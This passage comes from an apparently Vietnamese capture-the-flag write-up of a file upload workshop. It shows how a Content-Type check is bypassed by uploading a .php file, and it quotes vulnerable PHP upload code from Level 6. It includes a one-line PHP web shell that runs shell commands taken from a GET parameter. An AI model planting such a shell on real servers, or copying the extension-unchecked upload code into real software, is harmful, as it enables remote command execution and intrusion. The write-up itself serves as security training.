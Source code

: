 ![image](https://hackmd.io/_uploads/rkonxBA-A.png)

- đoạn code thực hiện chức năng tương tự như level 4 nhưng lần này sẽ lấy giá trị của phần Content-Type xem có phải "image/jpeg", "image/png", "image/gif"
- nếu có sẽ được lưu file và không thì sẽ không được thực thi

### Khai thác

- tương tự những bài trên mình upload 1 file ảnh bình thường và sửa tên file có phần mở rộng là .php và chương trình này không kiểm tra phần mở rộng của file

![image](https://hackmd.io/_uploads/SytiZH0WC.png)

- như chúng ta phân tích mình đã upload file thành công và file này đã được thực thi

![image](https://hackmd.io/_uploads/HJ-CZH0bC.png)

- tiếp theo mình đọc flag với payload

```php
<?php echo 'SECRET============' . system($_GET[cmd]). '============SECRET'; ?>
```

- và mình lấy được flag

![image](https://hackmd.io/_uploads/SydffBCWR.png)

## File upload workshop Level 6

![image](https://hackmd.io/_uploads/rkEVfrA-0.png)

### Phân tích

- đọc source code mình được:

```php
<?php
// error_reporting(0);

// Create folder for each user
session_start();
if (!isset($_SESSION['dir'])) {
    $_SESSION['dir'] = 'upload/' . session_id();
}
$dir = $_SESSION['dir'];
if (!file_exists($dir))
    mkdir($dir);

if (isset($_GET["debug"])) die(highlight_file(__FILE__));
if (isset($_FILES["file"])) {
    $error = '';
    $success = '';
    try {
        $finfo = finfo_open(FILEINFO_MIME_TYPE);
        $mime_type = finfo_file($finfo, $_FILES['file']['tmp_name']);
        $whitelist = array("image/jpeg", "image/png", "image/gif");
        if (!in_array($mime_type, $whitelist, TRUE)) {
            die("Hack detected");
        }
        $file = $dir . "/" . $_FILES["file"]["name"];
        move_uploaded_file($_FILES["file"]["tmp_name"], $file);
        $success = 'Successfully uploaded file at: <a href="/' . $file . '">/' . $file . ' </a><br>';
        $success .= 'View all uploaded file at: <a href="/' . $dir . '/">/' . $dir . ' </a>';
    } catch (Exception $e) {
```